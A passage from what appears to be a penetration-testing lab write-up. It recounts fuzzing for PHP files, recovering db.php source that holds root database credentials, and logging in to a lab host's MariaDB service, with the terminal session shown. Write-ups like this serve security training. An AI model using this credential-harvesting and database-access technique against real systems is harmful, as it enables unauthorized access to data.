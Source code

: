 ```
Eric please take a look at this if you have the time. I tried to implement some php code and set up the database connection but it doesn't seem to work. Could you fix it please?
```

Since there is a DB connection included, we fuzzed for PHP files in the directory.

<img src="attachments/a2831a975d0d080cdc8c353f4ff097ef.png" />

We got the source code of `db.php` using the same method as above and found the DB credentials.

```
<?php 
$servername = "localhost";
$username = "root";
$password = "SuperSecureMySQLPassw0rd1337.";

$conn = mysqli_connect($servername, $username, $password);

if (!$conn) {
  die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
?>
```

Using the credentials, we accessed the MySQL service on labdc.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Trusted]
└─$ mysql -h 10.10.164.118 -u root -p --ssl=0

Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 25
Server version: 10.4.24-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
